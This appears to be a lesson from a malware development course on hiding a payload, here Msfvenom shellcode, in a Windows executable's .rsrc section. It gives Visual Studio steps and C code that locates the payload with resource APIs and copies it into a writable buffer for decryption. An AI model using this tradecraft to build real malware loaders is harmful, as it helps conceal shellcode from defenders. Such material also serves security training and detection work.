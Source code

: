 15. Payload Placement - .rsrc Section[**15. Payload Placement - .rsrc Section**](https://maldevacademy.com/modules/15)
=================================================================================

**Payload Placement - .rsrc Section**
-------------------------------------

### **Introduction**

Saving the payload in the `.rsrc` section is one of the best options as this is where most real-world binaries save their data. It is also a cleaner method for malware authors, since larger payloads cannot be stored in the `.data` or `.rdata` sections due to size limits, leading to errors from Visual Studio during compilation.

### **.rsrc Section**

The steps below illustrate how to store a payload in the `.rsrc` section.

1.Inside Visual Studio, right-click on 'Resource files' then click Add > New Item.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-1.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-1.png)2.Click on 'Resource File'.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-2.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-2.png)3.This will generate a new sidebar, the Resource View. Right-click on the .rc file (Resource.rc is the default name), and select the 'Add Resource' option.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-3.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-3.png)4.Click 'Import'.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-4.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-4.png)5.Select the calc.ico file, which is the raw payload renamed to have the `.ico` extension.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-5.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-5.png)6.A prompt will appear requesting the resource type. Enter "RCDATA" without the quotes.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-6.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-6.png)7.After clicking OK, the payload should be displayed in raw binary format within the Visual Studio project

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-7.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-7.png)8.When exiting the Resource View, the "resource.h" header file should be visible and named according to the .rc file from Step 2. This file contains a define statement that refers to the payload's ID in the resource section (IDR\_RCDATA1). This is important in order to be able to retrieve the payload from the resource section later.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-8.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-8.png)Once compiled, the payload will now be stored in the `.rsrc` section, but it cannot be accessed directly. Instead, several WinAPIs must be used to access it.

* [FindResourceW](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-findresourcew) - Get the location of the specified data stored in the resource section of a special ID passed in (this is defined in the header file)
* [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - Retrieves a `HGLOBAL` handle of the resource data. This handle can be used to obtain the base address of the specified resource in memory.
* [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) - Obtain a pointer to the specified data in the resource section from its handle.
* [SizeofResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) - Get the size of the specified data in the resource section.

The code snippet below will utilize the above Windows APIs to access the `.rsrc` section and fetch the payload address and size.


```
#include <Windows.h>#include <stdio.h>#include "resource.h"int main() {

	HRSRC		hRsrc                   = NULL;
	HGLOBAL		hGlobal                 = NULL;
	PVOID		pPayloadAddress         = NULL;
	SIZE_T		sPayloadSize            = NULL;


	// Get the location to the data stored in .rsrc by its id *IDR_RCDATA1*
	hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
	if (hRsrc == NULL) {
		// in case of function failure
		printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get HGLOBAL, or the handle of the specified resource data since its required to call LockResource later
	hGlobal = LoadResource(NULL, hRsrc);
	if (hGlobal == NULL) {
		// in case of function failure
		printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the address of our payload in .rsrc section
	pPayloadAddress = LockResource(hGlobal);
	if (pPayloadAddress == NULL) {
		// in case of function failure
		printf("[!] LockResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the size of our payload in .rsrc section
	sPayloadSize = SizeofResource(NULL, hRsrc);
	if (sPayloadSize == NULL) {
		// in case of function failure
		printf("[!] SizeofResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Printing pointer and size to the screen
	printf("[i] pPayloadAddress var : 0x%p \n", pPayloadAddress);
	printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}

```
After compiling and running the code above, the payload address along with its size will be printed onto the screen. It is important to note that this address is in the `.rsrc` section, which is read-only memory, and any attempts to change or edit data within it will cause an access violation error. To edit the payload, a buffer must be allocated with the same size as the payload and copied over. This new buffer is where changes, such as decrypting the payload, can be made.

### **Updating .rsrc Payload**

Since the payload can't be edited directly from within the resource section, it must be moved to a temporary buffer. To do so, memory is allocated the size of the payload using [HeapAlloc](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc) and then the payload is moved from the resource section to the temporary buffer using `memcpy`.


```
// Allocating memory using a HeapAlloc call
PVOID pTmpBuffer = HeapAlloc(GetProcessHeap(), 0, sPayloadSize);
if (pTmpBuffer != NULL){
	// copying the payload from resource section to the new buffer
	memcpy(pTmpBuffer, pPayloadAddress, sPayloadSize);
}

// Printing the base address of our buffer (pTmpBuffer)
printf("[i] pTmpBuffer var : 0x%p \n", pTmpBuffer);


```
Since `pTmpBuffer` now points to a writable memory region that is holding the payload, it's possible to decrypt the payload or perform any updates to it.

The image below shows the Msfvenom shellcode stored in the resource section.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-payload.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-payload.png)Proceeding with the execution, the payload is saved in the temporary buffer.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-tmpbuffer.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-tmpbuffer.png)


